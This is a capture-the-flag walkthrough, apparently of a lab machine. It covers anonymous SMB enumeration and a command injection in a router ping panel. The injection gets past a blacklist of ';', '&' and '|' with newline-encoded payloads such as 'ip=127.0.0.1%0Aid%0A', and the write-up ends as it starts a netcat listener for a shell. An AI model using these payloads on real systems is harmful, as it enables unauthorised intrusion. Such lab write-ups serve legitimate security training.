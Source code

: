 ```bash
smbclient -N -L 10.10.143.147
```

![image](/assets/athena_ss/smblogin.png)
We find a share `public`, lets access it and give it no password

```bash
smbclient //10.10.143.147/public
```

![image](/assets/athena_ss/smbpublic.png)
Let's read the file and we find a potential route `/myrouterpanel`
![image](/assets/athena_ss/smb1.png)

### Myrouterpanel

Visiting the page we get,
![image](/assets/athena_ss/myrouterpanel.png)
and we find its pinging utility service from the web, what this means is the server is probably running `ping` on the server machine, which hints us with `command injection` vulnerability
Lets fire up burp to see whats going on
![image](/assets/athena_ss/cmd1.png)
payload`;id;`, and we get response as `Attemp Hacking`, so theres some filters on the server.<br>
Looking through [command injection payloads](https://github.com/payloadbox/command-injection-payload-list) from github, we find one particular payload to be working `%0Aid` out of which `%0A` is a newline feed in hex, trying the payload
payload `ip=127.0.0.1%0Aid%0A&submit=`
![image](/assets/athena_ss/cmd2.png)
and we get code execution! alright next up is we look at the file so we can see what filters are there
payload `ip=127.0.0.1%0Acat+ping.php%0A&submit=`

- **Snipped output**

```php
function containsMaliciousCharacters($input) {
    // Define the set of characters to check for
    $maliciousChars = array(';', '&', '|');

    // Check if any of the malicious characters exist in the input
    foreach ($maliciousChars as $char) {
        if (stripos($input, $char) !== false) {
            return true;
        }
    }

    return false;
}
```

so we see the blacklisted characters.
Lets try to get a shell on the box
start a listener on `nc -lnvp 4242`
